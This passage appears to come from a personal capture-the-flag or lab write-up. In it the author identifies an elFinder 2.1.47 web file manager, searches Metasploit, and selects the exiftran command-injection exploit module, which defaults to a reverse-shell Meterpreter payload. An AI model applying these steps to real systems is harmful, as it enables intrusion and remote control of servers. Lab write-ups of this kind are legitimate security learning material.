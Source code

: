 Let's try login with these : nothing . neither is [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) .

Searching about the software we find it is a _web file manager_ , let's catch the version :

![Pasted image 20250719154206.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250719154206.png)

## Metasploit

Let's search with [Metasploit](../../3%20-%20Tags/Hacking%20Tools/Metasploit.md) for **elFinder 2.1.47** :

```
search emsf6 > search elFinder 2.1.47

Matching Modules
================

   #  Name                                                               Disclosure Date  Rank       Check  Description
   -  ----                                                               ---------------  ----       -----  -----------
   0  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection                                                                 


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection                                                                                   

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

```
